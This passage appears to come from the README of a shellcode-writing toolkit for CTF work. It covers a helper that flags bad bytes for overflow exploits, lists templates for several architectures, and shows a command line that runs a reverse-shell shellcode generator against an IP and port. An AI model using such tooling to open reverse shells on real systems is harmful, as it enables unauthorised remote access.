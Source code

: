 the EXE options could be use with GDB or RUN too..

the `dumpit()` function python function will indicate you the total size in bytes of your shellcode,
it will also output an binary hexdump of your shellcode, with bytes of hexadecimal values `00`, `0a`, `20` highlighted.
That values could be problematic for some string functions overflow (`strcpy`, `sprintf`, etc..), so you will know if eventually your shellcode contains some of them..
and last but not least...
the `dumpit()` function will output your shellcode as a python hex string, or as a C program binary array, that you can copy/paste directly in your exploit..

let's see this various options in action, still with a simple `execve` shellcode:

![](pics/example2.gif)

#### Various architectures templates

 
+ [Template for x86 64 bits](./template.x64.py)
+ [Template for arm 32 bits](./template.arm.py)
+ [Template for arm 64 bit, aarch64](./template.aarch64.py)
+ [Template for mips](./template.mips.py)


#### passing arguments to your shellcode, and example

So, for example, you can also give some arguments to your shellcode, to customize it.

As an example, I will share with you my `Connect Back Reverse Shellcode generator` that I use in ctf..

it's 65bytes in x64, and contains no zeroes:

you can use this syntax:

`python3 connect.back.reverse.shell.x64.without.zeroes.py 192.168.1.1 1234 [RUN|GDB|EXE]`

you indicate the destination IP and port for connection, and you can RUN or DEBUG or produce an EXE..
